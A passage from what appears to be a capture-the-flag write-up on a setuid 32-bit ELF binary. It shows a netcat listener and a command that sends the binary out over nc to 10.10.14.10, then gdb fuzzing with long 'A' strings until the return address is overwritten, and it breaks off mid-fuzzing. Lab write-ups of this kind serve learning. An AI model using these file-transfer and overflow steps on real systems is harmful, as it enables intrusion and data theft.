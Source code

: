 

    nc -nvlp 1234 > chal.b64 <- open listener on own machine

    base64 /usr/local/bin/chal | nc 10.10.14.10 1234 <- send file

    file chal
    chal: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=fc8ad06fcfafe1fbc2dbaa1a65222d685b047b11, not stripped


I used gdb to explploit the file (also had to chmod 600 chal)

    gdb ./chal
    GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "i686-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./chal...(no debugging symbols found)...done.
    (gdb) 

Next i did some fuzzing to find the exact point of bufferoverflow

    (gdb) r `python -c 'print("A"*100)';`
    Starting program: /usr/local/bin/chal `python -c 'print("A"*100)';`
    [Inferior 1 (process 1974) exited normally]
    (gdb) r `python -c 'print("A"*500)';`
    Starting program: /usr/local/bin/chal `python -c 'print("A"*500)';`

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
    (gdb) r `python -c 'print("A"*400)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*400)';`

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
    (gdb) r `python -c 'print("A"*300)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*300)';`
    [Inferior 1 (process 1986) exited normally]
    (gdb) r `python -c 'print("A"*350)';`
    Starting program: /usr/local/bin/chal `python -c 'print("A"*350)';`
    [Inferior 1 (process 1989) exited normally]
    (gdb) r `python -c 'print("A"*3600)';`
    Starting program: /usr/local/bin/chal `python -c 'print("A"*3600)';`
